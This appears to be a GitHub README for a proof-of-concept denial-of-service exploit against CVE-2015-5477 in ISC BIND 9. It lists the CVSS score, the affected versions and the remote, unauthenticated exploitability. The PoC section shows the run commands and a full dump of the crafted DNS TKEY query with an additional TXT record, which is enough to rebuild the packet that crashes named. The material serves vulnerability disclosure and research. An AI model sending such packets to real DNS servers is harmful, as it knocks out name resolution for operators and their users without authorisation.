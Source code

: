 CVE-2015-5477 - An error in handling TKEY queries can cause named to exit with a REQUIRE assertion failure
==========================================================================================================

Overview
--------

	cvss    :  7.8 (AV:N/AC:L/Au:N/C:N/I:N/A:C) base  
	
	vendor  :  ISC Bind 
	product :  BIND   
	versions affected:   < 9.9.7-P2
                         < 9.10.2-P3
						
	exploitability :
				* remotely exploitable
				* NO authentication required
				* NO user interaction required
				* NO special configuration required (default settings)
				** NO configuration workaround
				
Abstract
---------
 
For more information see original advisory: https://kb.isc.org/article/AA-01272


Proof of Concept (PoC)
----------------------

```python
# python cve-2015-5477/poc_cve-2015-5477.py  <target>
[ ] CVE-2015-5477 BIND 9 PoC
[i] target: <target>
 [+] sending DNSQ TKEY with additional record ...
 [!] pkt sent!


# python cve-2015-5477/poc_cve-2015-5477.py  <target> --debug
[ ] CVE-2015-5477 BIND 9 PoC
[i] target: <target>
 [+] sending DNSQ TKEY with additional record ...
###[ DNS ]###
  id        = 0
  qr        = 0
  opcode    = QUERY
  aa        = 0
  tc        = 0
  rd        = 1
  ra        = 0
  z         = 0
  ad        = 0
  cd        = 0
  rcode     = ok
  qdcount   = 1
  ancount   = 0
  nscount   = 0
  arcount   = 1
  \qd        \
   |###[ DNS Question Record ]###
   |  qname     = '.'
   |  qtype     = 249
   |  qclass    = ANY
  an        = None
  ns        = None
  ar        = None
###[ DNS Resource Record ]###
     rrname    = '.'
     type      = TXT
     rclass    = ANY
     ttl       = 0
     rdlen     = 2
     rdata     = 'x'
.
Sent 1 packets.
 [!] pkt sent!

```
	
Contact
--------
	tintinweb - https://github.com/tintinweb/pub/tree/master/pocs/cve-2015-5477
	
	
(0x721427D8)
